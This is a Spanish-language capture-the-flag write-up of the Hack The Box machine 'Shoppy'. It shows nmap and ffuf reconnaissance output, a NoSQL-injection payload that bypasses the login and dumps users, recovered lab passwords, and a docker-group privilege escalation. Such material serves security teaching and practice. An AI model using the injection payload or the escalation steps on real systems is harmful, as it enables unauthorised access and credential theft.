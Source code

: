 ```yaml
---
description: Linux · Easy
---
```


# Shoppy

## Reconocimiento

```bash
nmap -sC -sV -oA ./nmap/shoppy 10.10.11.180
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-25 18:25 EST
Nmap scan report for 10.10.11.180
Host is up (0.026s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.81 seconds

```

Se descubrió dos puertos el `22/tcp` que por default es SSH y el puerto `80/tcp` que es HTTP,el servidor corre con Nginx 1.23.1.Tambien aparece `shoppy.htb`

Debemos agregar la URL en `/etc/hosts`

## Enumeracion

### Servidor Web

Ahora tenemos que ir al sitio web y enumerar con fuff.

`http://shoppy.htb`.

```bash
 ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://shoppy.htb/FUZZ
```

```bash

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

Admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 40ms]
ADMIN                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 54ms]
Login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 59ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 44ms]
assets                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 58ms]
css                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 40ms]
exports                 [Status: 301, Size: 181, Words: 7, Lines: 11, Duration: 30ms]
favicon.ico             [Status: 200, Size: 213054, Words: 56, Lines: 89, Duration: 32ms]
fonts                   [Status: 301, Size: 177, Words: 7, Lines: 11, Duration: 31ms]
images                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 28ms]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 43ms]
login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 46ms]
:: Progress: [20469/20469] :: Job [1/1] :: 1031 req/sec :: Duration: [0:00:21] :: Errors: 0 ::

```

Se descubrió dos URL interesantes `http://shoppy.htb/login y http://shoppy.htb/exports`

## Acceder

### Acceder como administrador

Ahora en la URL login.

Si usamos una comillas simple (') en el campo de nombre de usuario, recibimos un 504 Gateway Time-out. Tenemos nuestro primer mensaje de error.El mensaje de error muestra la URL http://shoppy.htb/login?error=WrongCredentialsProbemos diferentes cargas útiles en el formulario de inicio de sesión.La carga útil adecuada para eludir el mecanismo de inicio de sesión a través de BurpSuite.

```
POST /login HTTP/1.1
Host: shoppy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://shoppy.htb
Connection: close
Referer: http://shoppy.htb/login
Upgrade-Insecure-Requests: 1

username=admin'||'1==1//&password=admin

```

Después de iniciar sesión, somos redirigidos a `http://shoppy.htb/admin`

Desde esta página, podemos buscar usuarios. Podemos buscar al usuario admin y recibir la contraseña de esta cuenta de usuario. Hemos intentado descifrar esta contraseña, pero parece que no se puede descifrar. Después de completar la carga útil `'||'1==1//` en la barra de búsqueda, muestra todas las cuentas de usuario existentes en la base de datos.Intentemos descifrar la contraseña de la cuenta de usuario john.La contraseña encontrada es `remembermethisway.` Con esta contraseña se puede  intentar iniciar sesión a través de SSH con esta contraseña. Después de enumerar alrededor, encontramos un subdominio adicional `http://mattermost.shoppy.htb`.Después de mirar alrededor, encontramos las credenciales para la cuenta de usuario `jaeger` con la contraseña `Sh0ppyBest@pp!`

## SSH acceder como jaeger <a href="#ssh-access-as-jaeger" id="ssh-access-as-jaeger"></a>

Con el usuario y la contraseña encontrada antes podemos acceder a la maquina con SSH.

## Movimiento lateral

Esta cuenta de usuario tiene permiso para ejecutar /home/deploy/password-manager en nombre de la cuenta de usuario deploy.Después de ejecutar este programa, solicita una contraseña maestra. Como podemos ejecutar el programa, también podemos intentar leerlo.Parece que la contraseña es: Sample

## Escalada de privilegios

&#x20;Ahora tenemos las credenciales para la cuenta de usuario deploy. Podemos cambiar a esta cuenta de usuario y ejecutar linpeas.sh.

## Explotación de Docker

La cuenta de usuario deploy está en el grupo docker. A través de [GTFObins](https://gtfobins.github.io/gtfobins/docker/) podemos encontrar la ruta a la escalada de privilegios.
